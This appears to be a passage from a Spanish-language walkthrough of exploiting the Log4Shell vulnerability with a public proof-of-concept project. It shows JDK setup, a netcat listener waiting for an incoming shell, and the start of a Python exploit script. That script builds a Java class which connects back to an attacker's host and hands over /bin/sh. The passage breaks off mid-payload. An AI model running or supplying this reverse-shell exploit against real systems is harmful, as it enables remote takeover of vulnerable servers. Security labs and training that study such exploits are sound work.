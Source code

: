 - Y listo, ahora tenemos todo correcto para comenzar con la explotación de esta vulnerabilidad.

```bash
➜  log4j-shell-poc git:(main) mv /home/miguel/Downloads/jdk-8u202-linux-x64.tar.gz .
➜  log4j-shell-poc git:(main) tar -xf jdk-8u202-linux-x64.tar.gz
➜  log4j-shell-poc git:(main) ./jdk1.8.0_202/bin/java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
java version "1.8.0_202"
Java(TM) SE Runtime Environment (build 1.8.0_202-b08)
Java HotSpot(TM) 64-Bit Server VM (build 25.202-b08, mixed mode)
```

- Ahora vamos a instalar los `requirements.txt` .

```bash
➜  log4j-shell-poc git:(main) ✗ pip install -r requirements.txt
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: colorama in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (0.4.6)
Collecting argparse (from -r requirements.txt (line 2))
  Downloading argparse-1.4.0-py2.py3-none-any.whl.metadata (2.8 kB)
Downloading argparse-1.4.0-py2.py3-none-any.whl (23 kB)
Installing collected packages: argparse
Successfully installed argparse-1.4.0
```

- Ahora nos vamos a poner en escucha con **netcat** para que nos llegue la **shell** .

```bash
➜  log4j-shell-poc git:(main) ✗ sudo nc -nvlp 443
[sudo] password for miguel:
listening on [any] 443 ...
```

- Este es el exploit que se utiliza:

```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
```